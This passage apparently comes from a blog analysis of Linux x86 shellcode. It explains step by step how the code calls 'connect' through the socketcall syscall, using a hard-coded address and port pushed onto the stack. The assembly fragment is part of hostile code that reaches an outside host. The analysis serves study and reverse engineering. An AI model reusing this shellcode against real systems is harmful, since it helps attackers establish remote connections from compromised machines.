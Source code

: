 ![Figure 6: The synopsis for the socket function. ](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/Tmp_txt/Untitled%206.png)

Figure 6: The synopsis for the socket function. 


---

### Call to “connect” function via socketcall syscall

```wasm
**int     80h**
xchg    eax, edi
pop     ebx
push    2E9D1C95h
push    50000002h
mov     ecx, esp
push    66h ; 'f'
pop     eax
push    eax
push    ecx
push    edi
mov     ecx, esp
inc     ebx
**int     80h**
test    eax, eax
jns     short loc_804809C
```

- When the the first syscall `int  80h` returns, the result will be saved in the *eax *****register. Since it calls the C function “socket”, the result is the socket.
- The second instruction `xchg  eax, edi` will swap the value of *eax* with the *edi *****register because the *eax* register is needed for the syscall number in second syscall `int 80h` . Now, the *edi *****register will hold the socket.
- In Figure 5, the *ESP* register is pointing to the value **2**, so the `pop  ebx` will load the value **2** from top of the stack to the *ebx* register and increment the stack pointer by 4, so now the *ESP* register will point to the value **1** on the stack. It is important to note, the *ebx* register will hold the first argument for the syscall.
- `push 2E9D1C95h` and `push 50000002h` together will push 8 bytes on the top of stack. The pushed values look like constants, it is actually an object that will be used by the syscall.
- In the previous instructions, the object was pushed on the stack, so the *ESP* register points to the object now. The `mov ecx, esp` instruction will move the address of the object from ESP to *ecx*. As the *ebx* register will hold the first argument, similarly the *ecx* register will hold the second argument for the syscall.
- `push    66h` will push the value `102` on top of the stack (decrements the value of *ESP* by 4) and the next instruction `pop eax` will load this value to *eax* and increment the *ESP* register by 4. refer to Figure 7. The value of *eax* register is now **102**, and this is a syscall number meaning “socketcall”, which will call a C function depending on the value in the *ebx* register.

At this point, the stack looks like this:

![Figure 7: The stack after pushing the object](https://raw.githubusercontent.com/hamad-she/hamad-she.github.io/master/_posts/imgs/Tmp_txt/Untitled%207.png)

Figure 7: The stack after pushing the object
---
